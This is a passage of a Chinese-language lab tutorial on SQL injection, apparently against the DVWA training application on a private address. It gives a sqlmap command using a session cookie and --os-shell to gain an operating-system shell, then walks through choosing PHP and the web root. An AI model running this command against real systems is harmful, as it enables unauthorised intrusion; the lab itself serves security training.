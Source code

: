 `current user is DBA: True`代表其具备DBA权限。

在sqlmap中`--os-shell`代表sqlmap将尝试获取shell。

```
sqlmap -u "http://192.168.10.112/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=vmhebkhe3pl91nmpij1kfnr7f7; security=low" --os-shell
```

选择对相应的中间件类型，这里用的lamp,所以选PHP

![image-20220323112342543](../../images/image-20220323112342543.png)



选择2制定web站点路径

![image-20220323112726469](../../images/image-20220323112726469.png)
